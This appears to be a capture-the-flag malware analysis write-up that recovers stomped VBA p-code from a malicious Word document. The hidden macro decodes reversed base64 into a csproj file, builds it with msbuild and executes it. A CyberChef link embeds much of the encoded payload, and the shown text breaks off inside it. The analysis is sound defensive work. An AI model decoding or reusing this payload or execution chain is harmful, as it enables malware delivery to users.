# Finance

Starting with the initial file


We know this is malicious so we can take a look at the macros that accompany the document by going to: Developer->Visual Basic (if the developer tab is not available), go to file->options->customize ribbon-> tick the developer box.

We can now see code:


All it appears to do is run ipconfig, tree and echo. Which doesn't do anything malicious. There is a mention of pseudo-code which is strange given the current code is visual basic. After some googling, there is [mention of pseudo-code on wikipedia](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications).

Microsoft has an intermediate language called P-Code. This appears to be a document that's been [p-stomped](https://pcsxcetrasupport3.wordpress.com/2019/04/25/a-look-at-stomped-vba-code-and-the-p-code-in-a-word-document/).

There are a few slightly different ways of recovering the

## Method 1 - reversing

From the article, I can recover the p-code with [pcodedmp](https://github.com/bontchev/pcodedmp). When I do so, I get a huge output:



Looking near the top, we can see:


Where we can see a string `LitStr...` and then a `StrRev` and finally a `St`, LitStr likely means literal string. StrRev could be assumed to reverse the string or can be seen in the p-code:


And then `st` will store it in a variable named `YlkEdVZY`. This is later base64 decoded:
 before writing to a file `%USERPROFILE%\Downloads\TimeSeries.csproj`; Built with `msbuild` and then executed with `ShellExecute`


Note: `TimeSeries.csproj` will be the file name
To reverse the base64, I first filter out the junk by regex searching for `LitStr.*` and then remove everything but the base64 by replacing the regex `(LitStr 0x00C8 |")` with nothing. Then reverse the string on each line (remember the StrRev) before merging the lines together and finally base64 decoding it. This process can be seen on [this cyberchef link](https://gchq.github.io/CyberChef/#recipe=Regular_expression('User%20defined','LitStr.*',true,true,false,false,false,false,'List%20matches')Find_/_Replace(%7B'option':'Regex','string':'(LitStr%200x00C8%20%7C%22)'%7D,'',true,false,true,false)Fork('%5C%5Cn','%5C%5Cn',false)Reverse('Character')Find_/_Replace(%7B'option':'Extended%20(%5C%5Cn,%20%5C%5Ct,%20%5C%5Cx...)','string':'%5C%5Cn'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true)&input=TGluZSAjMjc6CglMaXRTdHIgMHgwMEM4ICJnczJjaFIxWnVsMmNWeGpQMFYyWnlGR1Z2d2pQdkFTWnNCWGJoaFhSek5YWXNORVArSVNXcVozVlBaR2Q2bFhjaTBUWnRGbVRnUVhabkpYWVV4alBpTURNd0l6TGt4V2ExSjJjdDlpY2xCM2JzVm1kbFIyTHQ5Mll1UW5adk4zYnlOV2F0NXljaDFXWm9OMmN2OGlPd1JIZG9KU1B6NUdidGhYQ2lBakwwSVNQdTlXYXpKWFpXTkhidjlHVmdRM1lscDJieUJGUCIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzI4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJoUkZQK0lDYnNSbUx3NENOMjV5Y3JOWFlVNUNac2xXZEM1Q2RtOTJjdkozWXAxRVg1RXpNd01qTHc0Q04yeEZYckozYjNWV2JoSm5SY1JYWk81Q2RtOTJjdkozWXAxRVh6ZDNiazVXYVh4bE9ESlNQbHhXYUdsSGJpMVdaek5YUWdJU2V5OUdkakZtUnJOWFlVVkdadk5rSTlrbmN2UjNZaFowYXpGR1ZnSVNac0JYYmhoWFJ6TlhZc05rSTlVV2JoNTBhekZHViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzI5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJpNDJicFIzWWx4bVpsSmxMdFZHZHpsM1VpMFRaakZHY3pWV2JoNUVJbjVXYXpWRlArOENJaThVU3UwV1owTlhlVEpTUGxOV1l3TlhadEZtVGdjbWJwTlhWODR6TGdJU2JsUjNjNU5sSTlVMlloQjNjbDFXWU9CeVp1bDJjVnhqUHZBaUl1OVdhMEZXYnZSWGRCNUNkdVZXYmxkV1l1RldUdTBXWjBOWGVUSlNQbFJXZHNObWJKQlNaajVXWnlWbVpsSkZQK3MyYyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzMwOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJwTlhkN00zWXBSM2N2NTJaaGxHUnUwV1owTlhlVEJ5WnVsMmMxdHpUSjVTYmxSM2M1TkZJbjVXYXpWM090VkdkemwzVWdjbWJwTlhkYkZFVkJSMFFiRkNQK0l5Y2pKU1BsZFdZMWRtYmh4RUlpTTNjaHgyUWkwVFp3bEhWZ1VHWnZORVArOENJaU1XYXlWbWJsZGtMejUyYnBSM1lseEdidk5rTHRWR2R6bDNVaTBUWmpGR2N6VldiaDVFSW41V2F6VkZQKzhDSSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzMxOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ0VjJaaDVXWU41U2JsUjNjNU5GSW41V2F6VjNPdTlXYTBGV2J2UlhkQjVDZHVWV2JsZFdZdUZXVHUwV1owTlhlVEJ5WnVsMmMxdERibFIyYk5SM1lscG1ZUDV5Y3U5V2EwTldac3gyYkQ1U2JsUjNjNU5GSW41V2F6VjNPelYyWXBabmNsTkZjdkpYWjA1V1N1VVdicFJuYjFKbEx0VkdkemwzVWdjbWJwTlhkNzQyYnBSM1lseG1abEpsTHRWR2R6bDNVZ2NtYiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzMyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJqbEdiaVZIYzd0MmNoUlZTc3MyY2hSbE9seEdjdEZHZUZOM2NoeDJRZ00zY2h4MllnTVdhc0pXZHd0emNsbEdkcHhXYTBWbExreFdhMUprTDBaMmJ6OW1jamxXVGdjbWJwTlhkN3NtY3ZkWFp0Rm1jRzVDWnNsV2RDNUNkbTkyY3ZKM1lwMUVJbjVXYXpWM08waFhaVTVTYmxSM2M1TkZJbjVXYXpWM096VjJZaEIzY3VWblV1NDJicFJYWXQ5R2QxRmtMMDVXWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzMzOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ6WjFSaHBuU1lwMU01YzBZaWd5WnVsbWMwTkZOMlUyY2hKVWJ2Sm5SdVFuY2xabmJ2TlVQaFJYWWsxMVdsUlhlaXRYS280V2FoMUVJa2wyYjJCeVlwUlhZME5ISWpsR2JpVkhjNzFXWXlkMmJ5QkZJek5YWXNOR0lqbEdiaVZIYzkxM09sVm5jMEJpYnlWSGRsSjNPcGdpYnBGV1R1MFdZeWQyYnlCMWVwZ1NaMFYzWWxoWFJndzJidkpHSWxSV2F5SlhaMjlHSSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzM0OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ0RjFNU2RWVTBNV1ZSSmxTVlZWVEdWbFZJWjBhak5FWnVsbFFzWjBVQ1psYlJKbFRXRmxRT1ZWVXhvRU1rbG1Sd0VHU0dWVVREUkdXWEprVTZKbFFHcFdVdUJuUkp0V05YbEZkeElqWUVKMVZhdFdPeWtWZFdkRlRuVjFSbHhXTkRKMmNXZFVZNnBFV2FOVE9ITjJTSmxuU3V4V2JhVlhPeWsxZHNKalNuMWtNTWRXVkhWR2IxTWtXMDVVYkpkV1ZIVkdiMU1rWSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzM1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICIxb0VNa3BsUlZSVlNHQmpXQ1JtYlhKa1U2SmxRbzFXVUNaMFZSNUVhVkYxZEtCaldWWkVNaUprUnJSbFFraGxWQ1IzVlNKa1VzRmxRV1pWVTBVVlZSQmxTVlZGV0dWRlZIWlVWa0pFWnlFbFFDUlZVQ0IzVlJKa1FXRmxkR1ZWVVBaVVZScGtSd01XU0dCelVDWmtSU0prUndFbFFrNVdVendtVlJKbFdWRmxlS1ZWVXBaVVZXaGtSd0kyUWtobFZDeFdSVEpFZSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzM2OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3b2xRR3QyVkNKbGVTSmtRdUZsYkdaVlVDNVVWUlZqU3dRV2FHVlZVRVpVUmlORVp6a2xRc1YwVUNoWGJSNW1VWEZsVmtWVlVVcFVWUnBrUlZOVlNHdEdaRFJXYlhKa1J3RWxRMDFXVVNCblZSNUVhVkZGZUpWVlVLWlVWV2hrUlZGMlFHVjFVQ0psZVNKRWF0RjFNc1pWVUM1VVZSWm5Td1FtV0dCVFlJWkVNaU5FWklwbFFHQlRVQ0prYVJKa1RYRmxja1ZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzM3OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDUlhWUkpsVVZGbGRHVlZVUFpVVlJwa1JGNUVSR1ZVVERaRWJYSmtUeUlsUXM1V1VTeG1WUkpGYVZGbGJHVlZWYVpVVlJSa1JGUjJRazVXV0N4V1JUSlVNdEZsUXNWVlV6UVdWUnBuU1ZWVllHQmpXSVpVUldORVp5a2xRV0ZqVUM1a2FSTmpTWEZsUWFWVlV1WlVWVkZtUlZkVlNHVjBZRFpVUmFKVU13SWxRbzFXVXU1MFZSWkZaVkYxZEpCaldwWkVNaGhrUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzM4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRjFjS0JqV3BaVVJPaGtSclIyUWtoMVZDWkVNUkprV3VGbFFTZFZVQzVVVlJOblNWRlZhR1YxVUlaVVJoTmtSVk5sUXhVMFVDSmtiUkpFYlZGbFVvVlZVem9VVlZobVJWTlZTR3RXWURSMk1aSmtSd0VsUXc1V1VTWjBWUjVHWlZGbFZLQmpXRVpVUk5Ka1J3UTFRa2hrVkNSM1ZTSmtWc0ZsUVdaVlV5WlZWUlJsU3dRbVVHVkZWSFowYVNOa1JyVmxRU3BYVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzM5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJKWlVWbE5FWnVsbFFHVjBVQ1IyVlJKRmJXRmxRT1ZWVXhvRU1rbG1SVkZGUkd0bVlEUldiWkpFZHlJbFFXNVdVU0JuVlJKRmFWRmxOS1ZWVm9aRU1raGtSd29sUUdWa1dDWkZNU0pFY3RGbFFTZFZVV1JXVlJGalNWRmxTR1ZWVklaVVZsTmtSV2RsUUdGalVDWmxiUkpGYldGbFVvVlZVMm9VVlJwa1JWSkZTR0JqV0NSbWJaSmtSR05sUWtkVlVDSjFWUjVFWiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQwOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3SWxRa2RWVUNoWFZSUnpZVkZsTktWVlVwWlVWU1prUndNbFFHWmtVQ1pFTVJKa1ZZRmxRR2RWVU9SV1ZSZFhTVlZGYUdCVFdKWjBhbE5rUlZObFFXRmpVQ0JuYlI1bVRYRmxWa1ZWVTVsVVZWRm1SVk4xUkdWRVpDWlVWVEprVnhJbFE1MFdVQ0oxVlJKa1RWRlZkS0JqV3BaRU1oaGtSclYyUUdaa1dDWkVNUkprVnVGbFV3WlZVdVJXVlJwWFNWRmxTR1ZWViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQxOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDaFdWUmRuU3dvbGFHVkZWSVowYWxOa1JWTmxReFUwVUNKa2JSSmtSWEZsVW9WVlV1WkVNa2xtUlZWVlNHQmpXQ1pVUmFKVU13SWxRNDFXVXVwMFZSQnpZVkZsTUtCRFphWlVWUlJrUlZSMlFHWjFWQ0ZETVNKRVpYRmxRU2RWVUdSV1ZSRm5TVkYxYUdWbFZJWlVWa05rUlZObFFHRmpVQ3htYlJKRmJXRmxVa1ZWVXhvVVZWcGxSVlZWU0d0V1pEWlVWVEprViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3RUdTR0JqV0NaVVJhSmtSRk5sUUM1V1V1NTBWUjVFWlZGbE5LVlZVS1pVVldoa1J3STJRR3RtVkNselZSSlVOVkZsYk9WVlUzVlVWUkZqUlZGMWFHVjFVSlowYWtOa1J3a2xRR0JUVUNCWGJSSmxSWEZsV2tWVlUzcEVNa3BsUlZaRlNHQkRaRFIyTVpKa1J3RWxRbzFXVUN4V1ZSUnpZVkYxZEpWVlVLWlVWVmhrUlZSMlFHWlZXQ3hXVlNKRVpYRmxRU2RWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQzOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDeFdSVEprUnFGbFFhWlZVQzVVVlJGalNWVlZZR1YxVUdaRU1hSmtSV3BsUXNCalVDUjJWUjVtU1hGbFZrVlZVM2xVVlJ0bVJ3RUdTR1ZWWkRSR1NhSmtSd0VsUVc1V1VTSjFWUnBGWlZGVk5LVlZWaFpFTVpsa1JyUjJRR1ZsVkNaRU1SSmtVdUYxTUtkVlVLaFdWUlJuU1ZGbFNHVlZWSVpVUmlORVpIcGxRMEpqVUN4bWJSSkZjV0ZsVWtWVlV1WkVNa3BtUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQ0OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJXRmxkR1ZWVVBaRU1rcG1SVlJWU0dWa1lEUm1NWkprUnhJbFEwMVdVU1prVlJKa1dWRjFTS1ZWVUtaVVZUZGtSckoxUUd0bVZDWmxWU0pVTnJGbFVHWlZVS3BWVlJOa1NWRmxWR1ZrVEVaRU1USmtSR0psUTVjVlVDVlRWUkpsVlhGbFVrVlZVMW9VVlZwbFJ3b2xSR0JqV0NaRWJYSkViR05sUW8xV1VDcGtWUkprVFZGRmRHVlZVS1pVVlRsa1JGSjJRazFXVyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQ1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJoWkVNYWhrUkYxMFFHVjFVQzVrTVNKa1Z1RmxVR2RWVU9oV1ZSaFhTVkZsU0dWa1RJWlVSaU5rUlZsbFFPZDBVQ1IyVlJOalNYRmxVb1ZWVXVaVVZSdG1SVlJGU0dWa1lEUldiWkprVTZKbFFhNVdVendtVlJKa1RWRmxNS1ZWVXJaVVZSUmtSclYyUWtOVFdDWlZNU0pFYnVGbFF3WlZVU1JXVlI5bVNWRmxTR1ZWVUhaMGFUTmtSVk5sUVdGalVDbFRiUkprVyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQ2OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWTmxRV0ZqVUNsVGJSSmtXV0ZsZEdWVlVQWlVWUnRtUlZOVlNHdEdaRFpVVldKa1J3RWxRT3hXVVNwa1ZSSmxXVkYxUktWVlZWWlVWU1prUndVMVFHWlZWQ1owYVNKa1ZZRmxiT1ZWVTNWVVZSeGtSVlZWUkdWa1RFWkVNaU5FWllkbFFHWjBVQ0prYlJOalVYRmxUb1ZWVXVaVVZWRm1SVlJWU0dWVlpEWkViWEpFYkdObFE0MVdVdVpsVlJkWFRWRmxiR1ZWViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQ3OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJTQm5WUjVFYVZGVk5LVlZWaFpVVlhsa1JGSjJRa2RsVkNKa2VSSkVaWEZsVXdaVlV1UldWUmRYU1ZGbFNHQlRXSVpVVmtOa1JXbGxReFUwVUNaa2FSSkViVkZGTWpWVlV6cFVWUmhtUndrVlNHQmpXQ1JtYlpKa1JHTmxRa2RWVUNKMVZSNUVaVkYxY0tCaldwWlVST2hrUnJSMlFraDFWQ1pFTVJKa1d1RmxRU2RWVUM1VVZSZFhTd29sYUdWMFRJWkVNa05rUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQ4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3UVdhR1ZWVUVaVVJOTkVaeWtsUW9wblVDUm1iUkpFYlZGbFZrVlZVMnBVVlJ0bVJWRkZSR3RXWkRaa1ZaSmtSd0VsUUNwV1VTWjBWUkprVFZGbGNLQmpXcFpFTWhoa1J3RTFRR1pFVkNaRU1SSlVOdEZsYktkVlV5UldWUlpqU1ZWMWFHVlZVRVpVVmtOa1JzZGxRa0pqVUNoR2JSSkViVkZGTU5WVlUycEVNa3BsUlZWVlNHVjBZRFJHU2FKVU1GTmxRa2RWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzQ5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJEUm1NUkprUVVGbFFhdFdVQ0psVlJKa1dWRjFUS1ZWVlNaRU1hZGtSckoxUWtkRVZDbHpWUkpVTlZGbGJPVlZVM1ZVVlJGalJ3UW1hR1ZrVElaVVJpTmtSRnBsUXhVMFVDSmtiUkprU1hGbFFPVlZVM2xVVlJwbVJ3RUdTR1ZWWkRSR1dYSlVNRk5sUWtkVlV6NDBWUkpIWlZGbGRLVlZVclpVVlJSa1J3STJRa2gxVkNSbk1TSlVPdEYxTVNkVlVDNVVWUkZqUyIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzUwOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ0RmxiT2RWVVNSV1ZSSm5TVlZsVUdWVlVIWjBhVE5rUkdSbFFHQlRVQ2hYYlJOalRYRmxTb1ZWVXpwRU1hdG1SVlpGU0dCVFZEWmtSVUprUndFbFFrNVdVendtVlJKbFdWRmxlS1ZWVXBaVVZXaGtSd0kyUWtobFZDeFdSVEpFZXRGMU1TZFZVME1XVlJKbFNWVlZUR1ZsVklaMGFqTkVadWxsUXNaMFVDWmxiUkpsVFdGbFFPVlZVeVZVVlJwa1JWUjFSR1ZWViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzUxOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ5b1VWUmhtUlZSVlNHQmpXQ1pFYlhKRWJHTmxRYTVXVXV4bVZSWmtWVkZGVEdWVlZGWkVNaUprUnJSbFFHdEdWQ1prUlNKa1FVRmxRMVVWVUM1VVZSZFhTd29sYUdWMFRJWlVWVk5rUkdSbFFHQlRVQ3BFVlI1V01WRmxTU1ZWVXhZVVZSOWtSVlpWUkdWVlpDUjJSVUpFWkhKbFFLUlZVU0ZUVlJCVFRWRlZOR1ZWVlFaVVZTVmtSd29sUWtOVFdDRlRSVEpFZSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzUyOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3TTJRR3RXV0NaVk1TSlVPdEYxTVdaVlVLaFdWUk5uU3dRMmFHVjBUSVpVVlZOa1JWTmxRV0ZqVUNwa2FSSmxSWEZsVW9WVlV4cFVWVnBsUlZOVlNHVmtZRFpVUmFKa1U2SmxRQzVXVUN4V1ZSQnpZVkYxYktWVlVLWlVWWGhrUnJSMlFHVjFVQ1pWTVNKa1R1RmxRT2RWVTNOV1ZSOW1TVkZGYkdWbFZJWkVNYUpFWnRsbFFXQmpVQ1IyVlJOalRYRmxhb1ZWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzUzOgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDUjJWUkprVVhGbFJrVlZVeHBFTWFwbVJWWkZTR0JUVERSbWJaSmtSRk5sUWFoVlVDSjFWUlpFWlZGVmNLVlZVclpVVldoa1JWUjJRR1YxVUNaVlZTSkVaWEZsYjRWVlV6UVdWUnBuU1ZWVllHQmpXSVowYWxOa1JWTmxRR1owVUNCWGJSSkZjV0ZGTWpWVlV4b0VNa2xtUlZSRlNHQmpXQ1pFYlhKVU1GTmxRczVXVVNCblZScEZhVkYxY0tCaldxWlVWUlJrUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzU0OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJWRmxiR0JqV3BaVVZXaGtScjEwUUdaVldDNWtNU0pFWlhGbFV3WlZVdVJXVlJkWFN3b0ZSR1ZVVENaRU1hSkVadGxsUW9wblVDUjJWUk5EY1dGRk1qVlZVM3BFTWFsbVJWWkZTR1ZVVERSMk1aSkVkeUlsUU81V1VDeFdWUlpGWlZGRmNLVlZVS1pVVlZsa1JyVjJRR1prV0NKa2VTSkVaWEZsYk9kVlVXUldWUkZqU1ZWVllHVlZWSlowYWxOa1JXbGxRa05qVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzU1OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJJWkVNTk5FWnVsbFFHdG1VQ0pGV1JKRmNXRmxla1ZWVXlvRU1hdG1SRjVFU0d0MlVEWlVWVEprVUVKbFFrZFZVellsVlJKa1dWRkZUR1ZWVkZaVVZXWmtSVlIxUUdWbFZDSkVWU0prU3JGbFFrWlZVV1pWVlJGalJ3b0ZSR1ZVVENaRU1USmtSR0psUUdCVFVDWkZXUkprVVhGbFNvVlZVeW9VVlJwbVJWRkZSR0JUWURSV2JaSmtWd0lsUWtkVlVDWmxWUkpuViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzU2OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ3RWxRdzVXVXpJMVZSUnpZVkZsZEtCRFpxWlVWUlJrUkZKMlFrZGtXQ2htZVNKRWJ0RmxVR1pWVTJaVVZSOWtSd29GUkdWVVRDWlVSTkprUnJSbFFHWmtVQ0pFVlJKRWJWRmxVb1ZWVTFvRU1rbG1SVkYxUkdWRVpDWlVWVEprUnhJbFFXNVdVU1owVlJwa1ZWRkZNR1ZWVUtaVVZSbGtSckYyUUd0bVZDUjJNU0prVHVGbFV3WlZVdVJXVlJWbFN3b2xhR1ZsViIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzU3OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJ5UldWUkJuU1ZGbFNHQkRaSVpFTWpOa1JzZGxRa0pqVUNKRmJSNW1UWEZsVmtWVlU2bEVNa2xtUlZGMVJHQmpXQ1pFYlhKRWJHTmxRQzVXVUNKMVZSNUVaVkYxYktCaldxWlVWV2hrUkYxMFFrMVdXQ1JuTVNKRVpYRmxiS2RWVUdSV1ZSNW1Sd29WWUdWMFRJWkVNYUprUnNkbFFrTmpVQ1JtYlJKbFNYRmxSa1ZWVXdrVVZWRm1SVkZGUkdWRlpEWmtWWEprUiIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzU4OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJGOUVTR1ZVVERaVVZUSmtSR05sUW8xV1V6d21WUnBFYVZGMWNLQkRaclpVUlBoa1J3UTJRa2hFVkNaa1JUSkVhdEYxTXNaVlVTaFdWUk5uU3dvVmFHVlZVRVpVUmhOa1JWTmxRV0ZqVUNCbmJSSmxXV0ZsUU9WVlV4WVVWUmxtUndRR1NHVmtZRFpVVlpKVU1GTmxRa2RWVUNKMVZSNUVaVkYxY0tCaldwWlVST2hrUnJSMlFraDFWQ1pFTVJKRWR0RmxiS2RWVSIKCUFyZ3NMZCBTdHJSZXYgMHgwMDAxIAoJQWRkIAoJU3QgWWxrRWRWWlkgCkxpbmUgIzU5OgoJTGQgWWxrRWRWWlkgCglMaXRTdHIgMHgwMEM4ICJDWkVNUkpFZFRGbFFzVlZVT3BWVlJKbFN3b0ZSR1ZVVENaMGFTTmtSRlpsUUd0bVVDVnphUkpsUldGbGJhVlZVSHBFTWExa1J3SW1RR3RHVkNSbU1SSmtRVUZsUWtkVlV1aFhWUkpGYVZGVk5LQkRacFpVVlJsa1J3b2xRa05UV0NSbk1TSlVP